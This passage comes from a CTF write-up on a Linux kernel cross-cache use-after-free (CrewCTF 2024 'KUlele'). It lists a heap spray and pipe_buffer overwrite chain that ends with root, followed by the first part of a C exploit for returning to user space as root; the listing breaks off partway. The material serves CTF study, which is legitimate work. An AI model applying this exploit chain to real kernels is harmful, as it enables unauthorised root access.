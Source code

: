 So we have `cross-cache` UAF!


# 0x04 Post `cross-cache` UAF

Post `cross-cache` UAF techniques are very ordinary.

- UAF then Refill with `msg_msg`
- UAF then Refill with `sk_buffer` (Fake a `msg_msg` header)
- Use `sk_buffer` to leak kernel heap address (so we know the address of sprayed payload) (`sk_buffer` is freed at this step)
- Refill with `sk_buffer`
- UAF then Refill with `pipe_buffer`
- Use `sk_buffer` to leak `pipe_buffer` content (`sk_buffer` is freed at this step)
- Refill with `sk_buffer` again to overwrite `pipe_buffer->ops` to conrtol RIP
- `RetSpill` to ROP
- Return to user space as root



# 0x05 Exploit

```c
//https://github.com/n132/libx/blob/main/README.md
//gcc main.c -o ./main -lx -w
#include "libx.h"

#if defined(LIBX)
    size_t user_cs, user_ss, user_rflags, user_sp;
    void saveStatus()
    {
        __asm__("mov user_cs, cs;"
                "mov user_ss, ss;"
                "mov user_sp, rsp;"
                "pushf;"
                "pop user_rflags;"
                );
        printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
    }
    size_t back2root = shell;
    void back2userImp(){
        __asm__("mov rax, user_ss;"
            "push rax;"
            "mov rax, user_sp;"
            "push rax;"
            "mov rax, user_rflags;"
            "push rax;"
            "mov rax, user_cs;"
            "push rax;"
            "mov rax, back2root;"
            "push rax;"
            "swapgs;"
            "push 0;"
            "popfq;"
            "iretq;"
            );
    }
    int sk_skt[0x8][2];
    int pipe_fd[PIPE_NUM][2];
    void libxInit(){
        back2user = back2userImp;
        hook_segfault();
        saveStatus();
        initSocketArray(sk_skt);
```

[0]: https://github.com/sajjadium/ctf-archives/tree/0610daa3bdd02bc9056b84fdd69f96132ce27c2f/ctfs/CrewCTF/2024/pwn/KUlele
[1]: TBD